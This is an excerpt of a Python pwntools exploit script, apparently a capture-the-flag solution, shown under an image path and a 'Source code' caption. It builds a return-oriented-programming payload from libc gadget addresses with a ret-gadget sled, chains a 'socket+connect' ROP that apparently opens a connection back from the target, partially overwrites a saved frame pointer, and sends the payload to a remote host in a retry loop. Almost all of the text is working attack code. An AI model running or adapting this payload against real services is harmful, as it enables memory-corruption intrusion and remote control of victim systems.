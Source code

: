 ```py
    # rop.write(1, heap + 0x1000, 0x1000) # socketfd

    # nopsled padding
    payload  = p64(libc.address + 0x000000000003124f) * ((0x2400-len(str(rop))-len(rop1))//8) # nopsled
    payload += str(rop1) # call our home grown rop first
    payload += str(rop) # call socket+connect rop

    # partial overwrite rbp, hope it'll hit
    payload = payload.ljust(0x2700, '\x00')
    payload += p16(0x4000)
    r.send(payload)

    r.send('70\x00\x00')
    r.send('A' * 70)

    # fire
    r.send('4\n')

    # wait for connection
    # r.interactive()

if __name__ == '__main__':
    libc = ELF('./libc.so.6', checksec=0)
    while True:
        try:
            r = remote(HOST, PORT)
            # r = process(BINARY, aslr=1)
        except:
            continue
        exploit()
        r.close()
        # sleep(0.5)
```
